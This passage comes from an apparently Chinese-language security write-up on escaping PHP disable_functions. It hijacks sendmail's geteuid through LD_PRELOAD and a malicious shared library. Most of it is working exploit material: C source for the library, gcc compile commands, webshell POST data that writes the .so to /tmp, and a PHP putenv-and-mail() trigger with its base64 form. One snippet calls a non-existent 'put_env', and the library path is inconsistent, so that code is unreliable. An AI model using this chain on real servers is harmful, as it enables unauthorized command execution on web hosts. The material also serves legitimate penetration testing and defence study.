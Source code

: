 ```plain
65: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND geteuid@GLIBC_2.17 (2)
```

编写恶意 so -> 通过 putenv 来设置 LD\_PRELOAD 变量 -> 触发 mail 函数来调用我们编写的恶意 so

```plain
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
void payload() {
    system("id > /tmp/evil.txt");
}
int geteuid()
{
    if (getenv("LD_PRELOAD") == NULL) { return 0; }
    unsetenv("LD_PRELOAD");
    payload();
}
```

劫持 sendmail 使用的 geteuid 库函数，在其中调用 payload() 函数

payload() 函数执行 id 命令输出到/tmp/evil.txt 进行测试

在一个与目标机器系统环境相近的环境下进行编译

```plain
gcc -c -fPIC evil.c -o evil
gcc -shared evil -o evil.so
```

把 evil.so 进行 base64 编码，利用 webshell，通过 file\_put\_contents 写入恶意 so

```plain
PostData:
1=file_put_contents('/tmp/evil.so',base64_decode(''))
```

写一点代码

```plain
<?php
put_env("LD_PRELOAD=/tmp/evil.so");
mail("mo60@localhost","","");
?>
```

将这段代码 base64 后写入文件随后访问，如果使用命令行在编码时需要注意转义引号

```plain
echo "<?php
putenv(\"LD_PRELOAD=/var/www/hack.so\");
mail(\"a@localhost\",\"\",\"\",\"\",\"\");
?>"|base64
PD9waHAKcHV0ZW52KCJMRF9QUkVMT0FEPS92YXIvd3d3L2hhY2suc28iKTsKbWFpbCgiYUBsb2NhbGhvc3QiLCIiLCIiLCIiLCIiKTsKPz4K
```
